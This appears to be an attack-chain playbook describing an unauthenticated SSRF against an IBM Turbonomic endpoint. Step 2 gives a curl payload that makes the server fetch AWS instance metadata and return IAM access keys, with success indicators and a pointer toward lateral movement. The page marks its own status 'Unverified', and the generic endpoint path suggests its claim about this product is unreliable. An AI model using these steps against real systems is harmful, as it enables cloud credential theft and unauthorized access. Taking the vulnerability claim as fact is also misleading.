

# SSRF Exploitation on Turbonomic Endpoint for Secret Key Disclosure

Multi-stage attack chain demonstrating exploitation of a Server-Side Request Forgery (SSRF) vulnerability in IBM Turbonomic, a cloud management platform, to disclose secret keys and gain unauthorized access to sensitive information.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- Web proxy like Burp Suite for request manipulation

### Target Environment

- IBM Turbonomic deployment (web-based cloud management service)
- Accessible public endpoint over HTTPS (typically port 443)
- Cloud infrastructure (e.g., AWS, Azure) hosting internal metadata services

### Initial Access Requirements

- No credentials required for unauthenticated SSRF
- Direct network access to the Turbonomic public endpoint
- Ability to send crafted HTTP requests

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Turbonomic Endpoint
procedure: [[procedures/Identify-Vulnerable-Turbonomic-Endpoint]]

**Objective**: Locate and verify the SSRF-vulnerable endpoint in the Turbonomic application to confirm it accepts user-controlled URLs for server-side requests.

**Instructions**: Begin by enumerating public endpoints of the Turbonomic instance using standard web reconnaissance. Use [[commands/curl-basic-probe]] to send a test request to a known or discovered endpoint that processes URLs, such as an integration or callback feature.

```bash
curl -X POST https://turbonomic.example.com/api/integrations -d 'url=http://example.com' -v
```

Monitor the response for signs of SSRF, such as unexpected delays or errors indicating internal request processing. If the endpoint reflects or processes the URL, it may be vulnerable.

**Expected Output**: HTTP response showing successful request acceptance, potentially with verbose output revealing internal forwarding.

**Success Indicators**:
- Endpoint accepts URL parameters without validation
- No immediate rejection of external/internal URLs

### Step 2: Exploit SSRF for Secret Key Exfiltration
procedure: [[procedures/Exploit-SSRF-for-Secret-Key-Exfiltration]]

**Objective**: Craft and send a malicious SSRF payload to force the Turbonomic server to request internal cloud metadata services, disclosing secret keys like AWS IAM credentials.

**Instructions**: Using the identified endpoint, modify the URL parameter to point to an internal metadata endpoint, such as the AWS instance metadata service at http://169.254.169.254/latest/meta-data/iam/security-credentials/. Intercept and craft the request with [[commands/curl-ssrf-payload]] via a proxy if needed.

```bash
curl -X POST https://turbonomic.example.com/api/integrations -d 'url=http://169.254.169.254/latest/meta-data/iam/security-credentials/' -v
```

The server will fetch the internal resource and return the response body containing secret keys in the application's output or error logs. Capture and parse the response for JSON data with access keys and secrets.

**Expected Output**: Response body including secret key details, e.g., {"AccessKeyId": "AKIA...", "SecretAccessKey": "..."}.

**Success Indicators**:
- Internal metadata fetched and returned
- Sensitive keys visible in response
- Potential for further lateral movement with disclosed credentials

## Attack Chain Summary

### Key Achievements

1. Identified SSRF-vulnerable endpoint in Turbonomic without authentication
2. Forced server-side requests to internal cloud metadata, bypassing network controls
3. Disclosed secret keys enabling unauthorized access to cloud resources

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Unsecured Credentials]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
